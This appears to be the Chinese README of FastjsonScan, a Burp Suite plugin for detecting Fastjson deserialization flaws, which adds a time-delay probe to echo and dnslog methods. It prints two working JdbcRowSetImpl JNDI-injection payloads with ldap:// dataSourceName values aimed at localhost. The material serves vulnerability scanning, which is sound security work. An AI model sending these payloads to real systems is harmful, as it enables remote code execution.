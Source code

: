 # FastjsonScan

## 前言

学习了pmiaowu的fastjson扫描插件，其主要是两种检测方式

一种是利用c3p0回显探测

一种是利用dnslog探测

想了想如果不存在回显且对方不出网的情况下，就扫描不到了

所以添加了一种延迟探测方式，当回显以及dnslog无法探测出时蚕蛹延迟探测方式

根据访问开放端口与关闭端口的响应时间不同来判断是否存在漏洞点

fastjson 1.2.9-1.2.47

```json
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://localhost:808/badNameClass",
        "autoCommit":true
    }
}
```

还有一种通用payload,可用于parseObject的场景，但是测试了一下发现上面这个也行

```json
{"@type":"com.alibaba.fastjson.JSONObject",{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://localhost:8088/badNameClass",
        "autoCommit":true
    }
}}""}
```

https://mp.weixin.qq.com/s/5mO1L5o8j_m6RYM6nO-pAA

## 安装

![image](https://user-images.githubusercontent.com/78201553/191967284-76af0c5a-c370-494f-8d05-d6c8070e90f0.png)

将target\BurpFastJsonScan下jar包导入

## 效果展示

![image](https://user-images.githubusercontent.com/78201553/191967198-c46d0ad9-12d0-4e32-becd-3ddc19328fee.png)

![image](https://user-images.githubusercontent.com/78201553/191967387-d8affb46-b02c-4b4b-b833-fab9d64c8b85.png)

![image](https://user-images.githubusercontent.com/78201553/191968084-4bbe1ab2-f340-4932-aa33-a79cd5f02068.png)

![image](https://user-images.githubusercontent.com/78201553/191967460-b3950d6d-1e9e-4a7f-852b-659e6db3c449.png)
